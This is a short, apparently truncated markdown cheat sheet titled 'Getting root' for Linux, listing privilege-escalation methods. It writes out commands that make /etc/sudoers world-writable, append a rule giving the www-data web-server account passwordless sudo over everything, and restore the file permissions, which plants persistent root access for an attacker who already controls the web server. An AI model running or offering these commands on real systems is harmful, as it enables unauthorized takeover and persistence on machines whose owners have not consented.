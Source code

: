 # Getting root

## Linux

* Method 1 : Create a new user with root privileges
* Method 2 : Given we have su command executable, change the configuration such that it does not asks for password.
  * chmod 777 /etc/sudoers && 
  * echo "www-data ALL=NOPASSWD: ALL" &gt;&gt; /etc/sudoers && 
  * chmod 440 /etc/sudoers
* 
